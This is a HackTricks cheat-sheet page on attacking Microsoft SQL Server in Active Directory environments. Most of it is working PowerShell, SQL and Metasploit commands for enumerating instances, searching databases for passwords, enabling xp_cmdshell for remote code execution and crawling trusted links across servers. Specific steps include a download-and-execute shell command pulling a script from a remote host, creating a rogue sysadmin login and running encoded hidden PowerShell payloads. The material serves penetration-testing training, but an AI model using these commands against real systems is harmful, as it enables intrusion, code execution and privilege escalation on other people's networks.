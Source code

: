 # MSSQL AD Abuse

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

## **MSSQL Enumeration / Discovery**

The powershell module [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) is very useful in this case.

```powershell
Import-Module .\PowerupSQL.psd1
```

### Enumerating from the network without domain session

```powershell
# Get local MSSQL instance (if any)
Get-SQLInstanceLocal
Get-SQLInstanceLocal | Get-SQLServerInfo

#If you don't have a AD account, you can try to find MSSQL scanning via UDP
#First, you will need a list of hosts to scan
Get-Content c:\temp\computers.txt | Get-SQLInstanceScanUDP –Verbose –Threads 10

#If you have some valid credentials and you have discovered valid MSSQL hosts you can try to login into them
#The discovered MSSQL servers must be on the file: C:\temp\instances.txt
Get-SQLInstanceFile -FilePath C:\temp\instances.txt | Get-SQLConnectionTest -Verbose -Username test -Password test
```

### Enumerating from inside the domain

```powershell
# Get local MSSQL instance (if any)
Get-SQLInstanceLocal
Get-SQLInstanceLocal | Get-SQLServerInfo

#Get info about valid MSQL instances running in domain
#This looks for SPNs that starts with MSSQL (not always is a MSSQL running instance)
Get-SQLInstanceDomain | Get-SQLServerinfo -Verbose 

#Test connections with each one
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -verbose

#Try to connect and obtain info from each MSSQL server (also useful to check conectivity)
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose

# Get DBs, test connections and get info in oneliner
Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo
```

## MSSQL Basic Abuse

### Access DB

```powershell
#Perform a SQL query
Get-SQLQuery -Instance "sql.domain.io,1433" -Query "select @@servername"

#Dump an instance (a lotof CVSs generated in current dir)
Invoke-SQLDumpInfo -Verbose -Instance "dcorp-mssql"

# Search keywords in columns trying to access the MSSQL DBs
## This won't use trusted SQL links
Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLColumnSampleDataThreaded -Keywords "password" -SampleSize 5 | select instance, database, column, sample | ft -autosize
```

### MSSQL RCE

It might be also possible to **execute commands** inside the MSSQL host

```powershell
Invoke-SQLOSCmd -Instance "srv.sub.domain.local,1433" -Command "whoami" -RawResults
# Invoke-SQLOSCmd automatically checks if xp_cmdshell is enable and enables it if necessary
```

Check in the page mentioned in the **following section how to do this manually.**

### MSSQL Basic Hacking Tricks

{% content-ref url="../../network-services-pentesting/pentesting-mssql-microsoft-sql-server/" %}
[pentesting-mssql-microsoft-sql-server](../../network-services-pentesting/pentesting-mssql-microsoft-sql-server/)
{% endcontent-ref %}

## MSSQL Trusted Links

If a MSSQL instance is trusted (database link) by a different MSSQL instance. If the user has privileges over the trusted database, he is going to be able to **use the trust relationship to execute queries also in the other instance**. This trusts can be chained and at some point the user might be able to find some misconfigured database where he can execute commands.

**The links between databases work even across forest trusts.**

### Powershell Abuse

```powershell
#Look for MSSQL links of an accessible instance
Get-SQLServerLink -Instance dcorp-mssql -Verbose #Check for DatabaseLinkd > 0

#Crawl trusted links, starting form the given one (the user being used by the MSSQL instance is also specified)
Get-SQLServerLinkCrawl -Instance mssql-srv.domain.local -Verbose

#If you are sysadmin in some trusted link you can enable xp_cmdshell with:
Get-SQLServerLinkCrawl -instance "<INSTANCE1>" -verbose -Query 'EXECUTE(''sp_configure ''''xp_cmdshell'''',1;reconfigure;'') AT "<INSTANCE2>"'

#Execute a query in all linked instances (try to execute commands), output should be in CustomQuery field
Get-SQLServerLinkCrawl -Instance mssql-srv.domain.local -Query "exec master..xp_cmdshell 'whoami'"

#Obtain a shell
Get-SQLServerLinkCrawl -Instance dcorp-mssql  -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.114:8080/pc.ps1'')"'

#Check for possible vulnerabilities on an instance where you have access
Invoke-SQLAudit -Verbose -Instance "dcorp-mssql.dollarcorp.moneycorp.local"

#Try to escalate privileges on an instance
Invoke-SQLEscalatePriv –Verbose –Instance "SQLServer1\Instance1"

#Manual trusted link queery
Get-SQLQuery -Instance "sql.domain.io,1433" -Query "select * from openquery(""sql2.domain.io"", 'select * from information_schema.tables')"
## Enable xp_cmdshell and check it
Get-SQLQuery -Instance "sql.domain.io,1433" -Query 'SELECT * FROM OPENQUERY("sql2.domain.io", ''SELECT * FROM sys.configurations WHERE name = ''''xp_cmdshell'''''');'
Get-SQLQuery -Instance "sql.domain.io,1433" -Query 'EXEC(''sp_configure ''''show advanced options'''', 1; reconfigure;'') AT [sql.rto.external]'
Get-SQLQuery -Instance "sql.domain.io,1433" -Query 'EXEC(''sp_configure ''''xp_cmdshell'''', 1; reconfigure;'') AT [sql.rto.external]'
## If you see the results of @@selectname, it worked
Get-SQLQuery -Instance "sql.rto.local,1433" -Query 'SELECT * FROM OPENQUERY("sql.rto.external", ''select @@servername; exec xp_cmdshell ''''powershell whoami'''''');'
```

### Metasploit

You can easily check for trusted links using metasploit.

```bash
#Set username, password, windows auth (if using AD), IP...
msf> use exploit/windows/mssql/mssql_linkcrawler
[msf> set DEPLOY true] #Set DEPLOY to true if you want to abuse the privileges to obtain a meterpreter session
```

Notice that metasploit will try to abuse only the `openquery()` function in MSSQL (so, if you can't execute command with `openquery()` you will need to try the `EXECUTE` method **manually** to execute commands, see more below.)

### Manual - Openquery()

From **Linux** you could obtain a MSSQL console shell with **sqsh** and **mssqlclient.py.**

From **Windows** you could also find the links and execute commands manually using a **MSSQL client like** [**HeidiSQL**](https://www.heidisql.com)

_Login using Windows authentication:_

![](<../../.gitbook/assets/image (167) (1).png>)

#### Find Trustable Links

```sql
select * from master..sysservers
```

![](<../../.gitbook/assets/image (168).png>)

#### Execute queries in trustable link

Execute queries through the link (example: find more links in the new accessible instance):

```sql
select * from openquery("dcorp-sql1", 'select * from master..sysservers')
```

{% hint style="warning" %}
Check where double and single quotes are used, it's important to use them that way.
{% endhint %}

![](<../../.gitbook/assets/image (169).png>)

You can continue these trusted links chain forever manually.

```sql
# First level RCE
SELECT * FROM OPENQUERY("<computer>", 'select @@servername; exec xp_cmdshell ''powershell -w hidden -enc blah''')

# Second level RCE
SELECT * FROM OPENQUERY("<computer1>", 'select * from openquery("<computer2>", ''select @@servername; exec xp_cmdshell ''''powershell -enc blah'''''')')
```

If you cannot perform actions like `exec xp_cmdshell` from `openquery()` try with the `EXECUTE` method.

### Manual - EXECUTE

You can also abuse trusted links using `EXECUTE`:

```bash
#Create user and give admin privileges
EXECUTE('EXECUTE(''CREATE LOGIN hacker WITH PASSWORD = ''''P@ssword123.'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
EXECUTE('EXECUTE(''sp_addsrvrolemember ''''hacker'''' , ''''sysadmin'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
```

## Local Privilege Escalation

The **MSSQL local user** usually has a special type of privilege called **`SeImpersonatePrivilege`**. This allows the account to "impersonate a client after authentication".

A strategy that many authors have come up with is to force a SYSTEM service to authenticate to a rogue or man-in-the-middle service that the attacker creates. This rogue service is then able to impersonate the SYSTEM service whilst it's trying to authenticate.

[SweetPotato](https://github.com/CCob/SweetPotato) has a collection of these various techniques which can be executed via Beacon's `execute-assembly` command.

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>
